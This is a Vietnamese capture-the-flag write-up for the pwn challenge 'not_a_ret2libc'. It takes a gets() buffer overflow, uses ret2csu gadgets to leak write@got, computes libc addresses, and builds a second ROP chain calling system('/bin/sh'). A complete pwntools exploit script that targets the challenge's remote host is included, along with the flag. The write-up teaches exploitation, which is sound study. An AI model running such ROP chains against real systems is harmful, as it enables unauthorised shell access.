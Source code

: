 # not\_a\_ret2libc (Pwn)

Bài này đưa sẵn source code, libc

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

{% code title="not_ret2libc.c" lineNumbers="true" %}
```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```
{% endcode %}

Nhìn đề bài là phải leak được libc ( don't care about the title :))) ). Mình sẽ cố gắng gọi  `write(1,write@got,8)`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Bài này không có `pop rdx` gadget nên mình nghĩ tới cách ret2csu.

Kiểm tra hàm `__libc_csu_init`

```asmatmel
   0x00000000004011a0 <+0>:     endbr64 
   0x00000000004011a4 <+4>:     push   r15
   0x00000000004011a6 <+6>:     lea    r15,[rip+0x2c63]        # 0x403e10
   0x00000000004011ad <+13>:    push   r14
   0x00000000004011af <+15>:    mov    r14,rdx
   0x00000000004011b2 <+18>:    push   r13
   0x00000000004011b4 <+20>:    mov    r13,rsi
   0x00000000004011b7 <+23>:    push   r12
   0x00000000004011b9 <+25>:    mov    r12d,edi
   0x00000000004011bc <+28>:    push   rbp
   0x00000000004011bd <+29>:    lea    rbp,[rip+0x2c54]        # 0x403e18
   0x00000000004011c4 <+36>:    push   rbx
   0x00000000004011c5 <+37>:    sub    rbp,r15
   0x00000000004011c8 <+40>:    sub    rsp,0x8
   0x00000000004011cc <+44>:    call   0x401000 <_init>
   0x00000000004011d1 <+49>:    sar    rbp,0x3
   0x00000000004011d5 <+53>:    je     0x4011f6 <__libc_csu_init+86>
   0x00000000004011d7 <+55>:    xor    ebx,ebx
   0x00000000004011d9 <+57>:    nop    DWORD PTR [rax+0x0]
   0x00000000004011e0 <+64>:    mov    rdx,r14
   0x00000000004011e3 <+67>:    mov    rsi,r13
   0x00000000004011e6 <+70>:    mov    edi,r12d
   0x00000000004011e9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011ed <+77>:    add    rbx,0x1
   0x00000000004011f1 <+81>:    cmp    rbp,rbx
   0x00000000004011f4 <+84>:    jne    0x4011e0 <__libc_csu_init+64>
   0x00000000004011f6 <+86>:    add    rsp,0x8
   0x00000000004011fa <+90>:    pop    rbx
   0x00000000004011fb <+91>:    pop    rbp
   0x00000000004011fc <+92>:    pop    r12
   0x00000000004011fe <+94>:    pop    r13
   0x0000000000401200 <+96>:    pop    r14
   0x0000000000401202 <+98>:    pop    r15
   0x0000000000401204 <+100>:   ret  
```

Yeah, tại `__libc_csu_init+64`  có gadget `mov rdx,r14` giúp ta ghi thanh rdx.

Đầu tiên mình sẽ sử dụng các gadget bắt đầu ở `__libc_csu_init+90` để ghi các giá trị mong muốn vào cách thanh ghi.

`mov rdx,r14` -> ghi đè r14=8

`mov rsi,r13` -> ghi đè r13=write@got

`mov edi,r12d` -> ghi đè r12=1

`call QWORD PTR [r15+rbx*8]` -> ghi đè r15=write@got và rbx=0

`add rbx,0x1; cmp rbp,rbx` -> ghi đè rbp=1 để thoát loop `jne 0x4011e0` `<__libc_csu_init+64>`

ROPchain đầu tiên

```python
payload =b'0'
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp=1
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r14
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"]) #back to main
```

Đoạn sau chỉ cần lợi dụng địa chỉ của hàm `write` bị leak để tính địa chỉ của chuỗi `"/bin/sh"` và hàm `system`

```python
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
```

ROPchain trước đã giúp ta quay lại hàm main, giờ gửi thêm ROPchain mới để gọi hàm system

```python
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
```

Scirpt giải

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
exe = ELF("not_a_ret2libc_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
pop_rdi_ret=0x0000000000401203
pop_rsi_pop_r15_ret=0x0000000000401201
context.binary = exe
context.log_level='debug'
#p=exe.process()
#gdb.attach(p,gdbscript="b *main+62")
p=remote("45.122.249.68",10022)
#stage1
p.recv()
sleep(1)
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r15
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"])
p.sendline(payload)
sleep(1)
leak=p.recv()[:8][::-1]
sleep(1)
log.info(leak.hex())
#calculate
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
#stage2
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
p.sendline(payload)
sleep(1)
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{t0o_m4nY_g4dg3t_f0r_Xplo1t}`







